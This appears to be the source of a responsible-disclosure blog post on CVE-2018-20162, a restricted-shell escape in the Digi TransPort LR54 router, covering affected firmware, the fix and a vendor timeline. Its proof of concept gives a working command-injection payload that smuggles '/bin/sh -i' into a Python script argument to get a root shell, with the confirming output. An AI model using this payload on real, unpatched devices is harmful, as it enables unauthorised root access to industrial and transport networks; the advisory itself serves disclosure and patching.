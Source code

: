 ```yaml
---
layout: post
title: "CVE-2018-20162: Digi TransPort LR54 Restricted Shell Escape"
author: sgo
category: security
---
```


![lr54](/images/lr54.jpg)

The Digi TransPort LR54 is a high speed LTE router commonly used by industry,
infrastructure, retail and public transportation. 

It supports running python scripts in a restricted sandbox, and has a custom
shell accessible over SSH which is subjected to the same restrictions. The
underlying OS is therefore inaccessible to the administrator.

I've found a way to break out of the sandbox and obtaining a root shell by
exploiting the way the cli handles command line arguments when executing python
scripts:

When an interactive python process receives a SIGINT (trough CTRL-C), arguments
to the script are not properly escaped when passed to the interactive CLI's
error logging handler. This allows an attacker to execute arbitrary commands
as root.

To exploit this vulnerability, an attacker needs to have interactive CLI access
with 'super' privileges. A user with this access level is enabled by default on
the device.

# Vulnerable

Digi Transport LR54 (and maybe related products like WR64 and WR54)

- Firmware Version  : 4.4.0.26 10/29/2018 21:14:06
- Firmware Version  : 4.3.2.24 09/06/2018 00:58:34

And maybe earlier versions

# Mitigation

Users should upgrade to firmware version 4.5.1.4 or newer. 

# Proof of Concept

1. Upload `sleep.py` to the LR54 using scp or sftp, containing: 
  ```
import time;time.sleep(10)
  ```
2. Execute the following command in the LR54 cli: 
  ```
python sleep.py --XXX $(/bin/sh -i >&2)
  ```
3. Immediately press `CTRL-C` after the program starts

4. You are then dropped to an interactive root shell 
  ```
/home/digi/user # uname -a
Linux (none) 3.10.14 #1 SMP Mon Oct 29 16:18:10 CDT 2018 mips GNU/Linux
/home/digi/user # id
uid=0(root) gid=2000(users_rw) groups=2000(users_rw),2002(users_super)
  ```

# Timeline

- 2018-12-13: Vulnerability discovered
- 2018-12-14: PoC created, Vendor notified
- 2018-12-14: Vendor confirmed, 60 day embargo. Applied for CVE.
- 2018-12-15: CVE-2018-20162 assigned
- 2018-12-31: Received pre-release firmware. Confirmed not vulnerable.
- 2019-01-02: Vendor releases fixed firmware 4.5.1.4
- 2019-01-25: Vendor updated release notes to reference CVE-2018-20162
- 2019-02-13: Vendor ok'ed disclosure, Embargo lifted

# References

- [https://www.digi.com/products/networking/cellular-routers/digi-transport-lr54](https://www.digi.com/products/networking/cellular-routers/digi-transport-lr54)
- [http://ftp1.digi.com/support/firmware/transport/LR54/v4.5.1.4/93001306_L.pdf](http://ftp1.digi.com/support/firmware/transport/LR54/v4.5.1.4/93001306_L.pdf)
- [https://www.digi.com/resources/security](https://www.digi.com/resources/security)
- [https://blog.hackeriet.no/cve-2018-20162-digi-lr54-restricted-shell-escape](https://blog.hackeriet.no/cve-2018-20162-digi-lr54-restricted-shell-escape)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20162](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20162)

# Credits

Vulnerability discovered by Stig Palmquist.

Thanks to @duniel_pls and @alexanderkjall for reviewing this report.
